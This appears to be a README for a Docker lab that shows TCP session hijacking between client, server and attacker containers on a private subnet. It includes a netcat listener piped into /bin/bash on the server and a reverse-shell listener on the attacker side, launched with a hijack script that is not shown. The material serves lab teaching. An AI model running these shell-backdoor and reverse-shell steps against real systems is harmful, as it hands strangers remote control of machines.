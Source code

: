 # TCP SESSION HIJACKING

### 1. Create NetOne Network
    docker network create --subnet 10.2.5.0/24 NetOne --driver bridge
### 2. Launch Server Container in Privileged Mode
    docker run -it --privileged --network NetOne --name Server --ip 10.2.5.3 myubuntu 
### 3. Launch Client and Attacker Containers
    docker run -it --network NetOne --name Client --ip 10.2.5.2 myubuntu 
    docker run -it --network host --name Attacker myubuntu
### 4. Create NetCat Listener on Server Container
    nc -l 80 | /bin/bash
### 5. Connect Client to Server
    nc 10.2.5.3 80
### 6. Create NetCat Listener & Launch Hijack From Attacker Container
    nc -lnv 1337 & python3 sniff_and_hijack.py
### 7. Send any message from client to server to hijack the server
### 8. Reverse shell now active in attacker container, move to foreground with
    fg nc
